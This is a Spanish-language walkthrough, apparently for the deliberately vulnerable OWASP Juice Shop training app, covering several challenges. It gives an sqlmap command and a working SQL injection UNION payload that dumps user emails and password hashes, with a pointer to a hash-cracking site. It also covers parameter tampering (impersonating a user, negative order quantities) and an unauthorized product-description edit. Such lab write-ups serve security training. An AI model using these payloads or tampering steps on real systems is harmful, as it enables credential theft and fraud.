 * No es necesario resolver otro desafío previamente.

Parámetros utilizados:

* URL: [http://192.168.99.100:3000](http://192.168.99.100:3000/)  
* Ruta: `/rest/product/search/`  
* Parámetro: `q`  
* Base de datos: `sqlite`  

Comando en `sqlmap`:

``sqlmap -u 'http://192.168.99.100:3000/rest/product/search?q=something' -p 'q' --dbms='sqlite'``


Necesitamos aumentar el nivel de riesgo a `2`:

``--level=2``


Carga útil exitosa:

``q=something')) UNION ALL SELECT NULL,email,password,NULL,NULL,NULL,NULL,NULL from users--``


Podemos descifrar los hashes obtenidos usando [hashkiller](https://hashkiller.co.uk/md5-decrypter.aspx).

#### **19: "Publica comentarios en nombre de otro usuario."**

* Inicia sesión como cualquier usuario.

Ve a "Contact Us", activa Burp Intercept y cambia el valor de `"UserId":` a otro usuario antes de enviar la solicitud.

#### **20: "Realiza un pedido que te haga rico."**

* Inicia sesión como cualquier usuario.

Añade artículos a tu cesta, intercepta la solicitud en Burp y cambia `"quantity":` a un valor negativo antes de reenviar la solicitud.

#### **21: "Accede a la copia de seguridad olvidada de un desarrollador."**

* Primero, resuelve el desafío 11.

Descarga `package.json.bak` utilizando la misma técnica del desafío 11.  
Este archivo contiene las bibliotecas utilizadas y sus versiones, lo que puede ser muy útil.

#### **22: "Cambia el enlace dentro de la descripción del producto O-Saft a `http://kimminich.de`."**

* Primero, resuelve el desafío 17.

Ejemplo de solicitud `PUT`:

``PUT /api/Products/8 HTTP/1.1
Host: 192.168.99.100:3000
Content-Type: application/json;charset=utf-8
Content-Length: 244
Connection: close
{"description":"O-Saft es una herramienta fácil de usar
para mostrar información sobre certificados SSL y
probar la conexión SSL con una lista dada de cifrados
y varias configuraciones SSL.
<a href="http://kimminich.de\" target="_blank">Más información...</a>"}``

